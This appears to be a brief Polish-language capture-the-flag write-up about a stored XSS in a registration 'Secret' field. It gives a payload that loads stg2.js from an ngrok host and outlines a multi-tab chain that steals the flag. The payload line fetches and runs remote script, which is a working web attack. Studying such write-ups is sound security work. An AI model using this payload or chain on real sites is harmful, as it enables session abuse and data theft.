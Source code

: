 ![](../images/Pasted%20image%2020220717204406.png)

Przy rejestracji jest XSS w polu Secret, który potem jest wyświetlany na `secret.domain.pl/secret`, payload:
```
hello, world!<script src="https://somehost.eu.ngrok.io/stg2.js"></script>
```

Co robi `payload.html`:
 1. Otwiera normalnego taba z zalogowanym użytkownikiem
 2. Loguje się na konto z wyżej wymienionym payloadem
 3. Otwiera kolejne okno z secretem i wykonuje `stg2.js`
 4. Pobiera flagę przez otwarcie taba o tym samym ID

Wszystko zchainowane daje rezultat:
![](../images/Pasted%20image%2020220717205814.png)
